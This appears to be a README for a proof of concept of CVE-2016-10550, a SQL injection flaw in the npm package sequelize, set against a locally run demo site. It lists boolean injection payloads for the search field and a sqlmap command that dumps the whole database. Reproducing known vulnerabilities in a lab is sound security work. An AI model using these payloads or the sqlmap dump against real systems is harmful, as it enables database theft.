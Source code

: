 # POC for CVE-2016-10550 in NPM package `sequelize`

- **Pull Request**: [#5167](https://github.com/sequelize/sequelize/pull/5167)
- **Package Repository**: [Sequelize GitHub](https://github.com/sequelize/sequelize)
- **Package Manager**: [NPM Sequelize](https://www.npmjs.com/package/sequelize)

## Steps to Reproduce:

1. Install the local dependencies: ```npm install```
2. Start the website locally: ```node index.js```
3. In the browser, navigate to ```http://localhost:3000```
4. In the search functionality, input `test1` for the username, and `1 AND 7992=7992`
5. See that it display 1 user is found.
6. In the search functionality, input `test1` for the username, and `1 AND 7992=0`
7. See that it displays 0 user is found. This means that the boolean condition is being executed.
8. Further injection can be done to retrieve the whole DB content. For example, using `sqlmap`: `sqlmap -r req -p limit --dbms=SQLite --dump --threads 10 --flush-session`